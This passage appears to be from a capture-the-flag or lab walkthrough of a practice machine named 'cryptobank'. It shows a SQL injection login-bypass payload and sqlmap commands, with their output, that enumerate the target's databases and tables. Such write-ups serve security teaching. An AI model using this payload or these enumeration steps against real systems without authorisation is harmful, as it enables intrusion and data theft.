 We do not have access to the development directory. Looking at the trade directory, we can see a login page which is vulnerable to sql injection, and hence can be bypassed using the payload `admin'or'1=1'#`

<center><br>
<img src="/assets/img/uploads/cryptobank/trade-login.png">
</center>

On further enumeration in the trade directory, I found a page which is vulnerable to sql injection. 


[http://cryptobank.local/trade/applying_loan.php?loan_id=2] 

Let's try running sqlmap to look for databases.
```r
m1m3@kali:~$ sqlmap -u http://cryptobank.local/trade/applying_loan.php?loan_id=2 --dbs

...

available databases [5]:
[*] cryptobank
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

The website is vulnerable to Time based SQL Injection! We found a database named <i>cryptobank</i> along with some default databases. Further, we will be enumerating the cryptobank database.

```r
m1m3@kali:~$ sqlmap -u http://cryptobank.local/trade/applying_loan.php?loan_id=2 -D cryptobank --tables  

...

Database: cryptobank
[3 tables]
+----------+
| comments |
| accounts |
| loans    |
+----------+
```
